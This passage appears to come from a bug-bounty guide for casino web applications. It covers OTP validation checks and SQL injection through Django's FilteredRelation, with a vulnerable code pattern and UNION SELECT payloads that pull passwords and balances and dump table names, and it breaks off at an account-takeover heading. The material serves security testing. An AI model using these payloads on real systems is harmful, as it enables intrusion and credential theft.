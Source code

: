 **Detection Method:**
- Look for client-side OTP validation
- Test if server trusts client response
- Check for missing server-side verification

---

### 2. **SQL Injection via FilteredRelation (Django)**

**Target:** Django Framework  
**Severity:** CRITICAL  
**CVSS:** 9.5+  
**Bounty:** $2,000-$10,000

**Vulnerability:**
```python
# Vulnerable code pattern
User.objects.annotate(
    user_data=FilteredRelation('data', condition=Q(data__user_id=user_input))
).select_related('user_data')
```

**Casino Application:**
- Betting history filters
- Game statistics queries
- User profile data retrieval
- Transaction history searches

**Exploitation:**
```sql
-- Test payload in filter parameter
user_id=1' UNION SELECT password FROM users--

-- Extract betting data
user_id=1' UNION SELECT credit_balance, username FROM users--

-- Dump entire database
user_id=1' UNION SELECT table_name FROM information_schema.tables--
```

**Testing Checklist:**
```
✓ Test all filter parameters
✓ Check sorting/ordering inputs
✓ Test search functionality
✓ Examine pagination parameters
✓ Look for custom query builders
```

---

### 3. **Email Verification Bypass → Account Takeover**

**Target:** Insightly (Similar to casino registration flows)  
**Severity:** CRITICAL  
**CVSS:** 9.0+  
**Bounty:** $3,000-$12,000
